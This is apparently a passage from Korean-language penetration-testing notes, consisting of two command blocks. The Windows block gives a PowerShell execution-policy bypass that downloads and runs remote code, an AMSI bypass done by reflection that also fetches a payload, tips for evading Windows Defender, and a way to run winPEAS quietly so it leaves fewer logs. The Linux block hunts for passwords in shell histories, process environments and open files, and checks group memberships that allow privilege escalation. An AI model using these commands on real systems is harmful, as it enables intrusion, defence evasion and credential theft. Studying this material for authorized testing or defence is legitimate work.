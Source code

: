 ```cmd
:: Windows 환경에서 놓치기 쉬운 것들
:: 1. PowerShell 실행 정책 제한
powershell -ExecutionPolicy Bypass -Command "IEX(New-Object Net.WebClient).DownloadString('URL')"

:: 2. AMSI (Antimalware Scan Interface) 우회
powershell -c "[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true); IEX(New-Object Net.WebClient).DownloadString('URL')"

:: 3. Windows Defender 실시간 보호 우회
:: 메모리에서만 실행하거나 난독화된 도구 사용

:: 4. 제한된 사용자 권한
:: 사용자별 도구 실행 (Seatbelt user checks)
Seatbelt.exe -group=user

:: 5. 로그 최소화
:: 조용한 모드로 실행
winPEAS.exe quiet > nul 2>&1
```

### 🔍 자동화 도구가 놓치는 수동 확인 사항들

```bash
# 1. 환경 변수의 특수 설정
echo $LD_PRELOAD $LD_LIBRARY_PATH $PATH
printenv | grep -E "(LD_|PATH|PYTHON|PERL)"

# 2. 하드링크와 심볼릭 링크 악용
find / -type l -ls 2>/dev/null | head -20
find / -links +1 -type f 2>/dev/null | head -20

# 3. 숨겨진 프로세스나 포트
ss -tulpn | grep -E ":22|:80|:443|:3306|:5432"
ps auxwww | grep -v "\[.*\]" | head -20

# 4. 특수 그룹 멤버십
groups | grep -E "(docker|lxd|disk|shadow|adm)"
id | grep -oE "\([^)]+\)" | grep -E "(disk|shadow|adm)"

# 5. 최근 명령어 히스토리 분석
find /home -name ".*history" 2>/dev/null -exec tail -10 {} \;
cat ~/.bash_history | grep -E "(su|sudo|ssh|scp|mysql|pass)" | tail -10

# 6. 메모리에서 패스워드 검색
strings /proc/*/environ 2>/dev/null | grep -i pass | head -5

# 7. 프로세스별 열린 파일
lsof -nP 2>/dev/null | grep -E "(config|pass|key)" | head -10

# 8. 실행 중인 컨테이너 확인
ls -la /.dockerenv 2>/dev/null
cat /proc/1/cgroup | grep -E "(docker|lxc)" 2>/dev/null

# 9. 커널 모듈 분석
lsmod | grep -vE "(soundcore|usbcore|ehci|ohci)" | head -10

# 10. 특수 파일시스템 마운트
mount | grep -vE "(proc|sys|dev|run)" | grep -E "(nfs|cifs|fuse)"
```
